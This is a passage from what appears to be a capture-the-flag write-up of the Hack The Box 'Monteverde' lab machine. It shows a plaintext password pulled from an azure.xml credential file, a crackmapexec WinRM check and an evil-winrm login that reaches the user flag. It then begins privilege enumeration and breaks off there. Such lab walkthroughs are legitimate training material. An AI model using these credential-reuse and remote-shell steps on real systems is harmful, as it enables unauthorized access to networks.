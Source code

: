 In the file `azure.xml`, found a password:

```xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
```

Checked if user `mhope` has WinRM permissions:

```bash
crackmapexec winrm 10.10.10.172 -u 'mhope' -p '4n0therD4y@n0th3r$'

WINRM       10.10.10.172    5985   MONTEVERDE       [+] MEGABANK.LOCAL\mhope:4n0therD4y@n0th3r$ (Pwn3d!)
```

Used `evil-winrm` and got the user flag:

```bash
evil-winrm -i 10.10.10.172 -u mhope -p 4n0therD4y@n0th3r$

*Evil-WinRM* PS C:\Users\mhope\Desktop> dir


    Directory: C:\Users\mhope\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        6/29/2024   6:57 AM             34 user.txt
```


# Root Flag

## User Enumeration

Checked user `mhope` privileges and what groups they are apart of: 

```bash
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                          Attributes
```